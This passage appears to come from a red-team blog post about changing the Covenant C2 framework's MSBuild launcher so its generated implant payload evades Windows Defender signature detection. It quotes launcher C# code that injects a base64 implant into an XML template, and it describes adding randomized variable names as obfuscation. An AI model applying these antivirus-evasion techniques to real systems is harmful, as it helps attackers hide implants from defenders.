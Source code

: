![DefenderCheck Detection](../assets/img/covenant-offshore/defendercheck-detection.png)

To start working on a simple signature evasion, I went back to the [msbuild launcher's source code](https://github.com/cobbr/Covenant/blob/master/Covenant/Models/Launchers/MSBuildLauncher.cs). I noticed that I could leverage the existing string replacement technique within the launcher model to add some additional obfuscation to the generated payload. The code below shows how the launcher is modified to include user-defined parameters for each launcher before it's generated. 

```cs
// Constructor
public MSBuildLauncher()
{
    this.Name = "MSBuild";
    this.Type = LauncherType.MSBuild;
    this.Description = "Uses msbuild.exe to launch a Grunt using an in-line task.";
    this.OutputKind = OutputKind.WindowsApplication;
    this.CompressStager = true;
}

public override string GetLauncher(string StagerCode, byte[] StagerAssembly, Grunt grunt, ImplantTemplate template)
{
    this.StagerCode = StagerCode;
    this.Base64ILByteString = Convert.ToBase64String(StagerAssembly);
    this.DiskCode = XMLTemplate.Replace("{{GRUNT_IL_BYTE_STRING}}", this.Base64ILByteString);
    this.DiskCode = DiskCode.Replace("{{TARGET_NAME}}", this.TargetName);
    this.DiskCode = DiskCode.Replace("{{TASK_NAME}}", this.TaskName);

    ...
```

By adding some additional string replacements, I can include randomly-generated variable names to the C# code. This also meant adding a little random string generation function to the launcher. While pretty simple, it should hopefully be enough to avoid getting picked up by defender.
